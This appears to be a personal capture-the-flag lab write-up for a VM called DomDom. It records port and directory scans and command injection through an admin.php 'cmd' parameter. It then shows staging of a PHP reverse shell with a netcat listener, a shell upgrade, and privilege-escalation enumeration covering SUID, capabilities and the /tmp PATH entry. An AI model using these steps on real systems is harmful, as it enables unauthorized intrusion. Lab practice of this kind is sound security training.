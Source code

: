 

---

**S1REN's Template Reference**

\[OS]: Ubuntu
\[Web-Technology]:  http://192.168.100.7:80
\[Hostname]:  
\[IP]:  192.168.100.7
\[USERS]:   
\[CREDENTIALS]:  

---
\[To-Try LIST]:  

User form - inputs sanitised

Fuzzing

Check GTFO Bins

---
\[NMAP RESULTS]:  
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: DomDom
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:8F:4A:D5 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14, Linux 3.8 - 3.16


--- 

\[Web Services Enumeration]:   


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: DomDom
|_http-server-header: Apache/2.4.18 (Ubuntu)

|     Path: http://192.168.100.7:80/
|     Form id: user_form
|_    Form action: index.php
| http-enum: 
|_  /admin.php: Possible admin folder

Nothing at 

Dirb:
/server-status
/admin.php


SQLi - no results
Fuzzing no results
Brute forcing?
Code Eval/Injection - ACE?

Burpsuite
![[Pasted image 20250829104104.png]]

forward admin.php -> command executed
![[Pasted image 20250829104511.png]]

try execute id `name=admin&username=admin&password=admin&access=access&cmd=id`
![[Pasted image 20250829104706.png]]


code was executed. Now run reverse shell (w/ machine IP) nc and host it on webserver


```
cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 9999
nc -nlvp 1234 
```

![[Pasted image 20250829105936.png]]
![[Pasted image 20250829110029.png]]
![[Pasted image 20250829110044.png]]



---


\[OTHER / PRIVILEGE-ESCALATION]:   
S1ren get that tty
www-data
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp  
export TERM=xterm-256color  
alias ll='ls -lsaht --color=auto'  
stty raw -echo ; fg ; reset  
stty columns 200 rows 20

cd home

# Saw domdom user here 
cd domdom

# but no perms for reading /Desktop/Readme

which gcc #and cc, wget all positive

file /bin/bash
uname -a #Ubuntu 16.04 LTS


sudo -l #no luck needs passwd
groups #www-data, sudo
env # PATH has /tmp - if privileged binary runs without path then malicious could be planted her

#SUID/SGID
find / -perm -u=s -type f 2>/dev/null # pkexec, fusermount, mount/umount/fstab??
find / -perm -g=s -type f 2>/dev/null # crontab, mlocate, ssh-agent


# Granted Implicit
getcap -r / 2>/dev/null 
#/usr/bin/systemd-detect-virt - cap_dac_override and cap_sys_ptrace - bypass file rw perms and attach/manipulate processes

#/bin/tar = cap_dac_read_search+ep 



```


--- 
Take Away Concepts: 



HOTKEYS! 
Background: Black 
Foreground (important elements): Red 
Background-Color: Select Text > Shift + Alt + B + ENTER 
Foreground Color: Select Text > Shift + Alt + F + ENTER 
Move quickly with: Function key + left and right arrows 
Cntrl + left and right arrows 
Cntrl + Shift (select text) (edited)
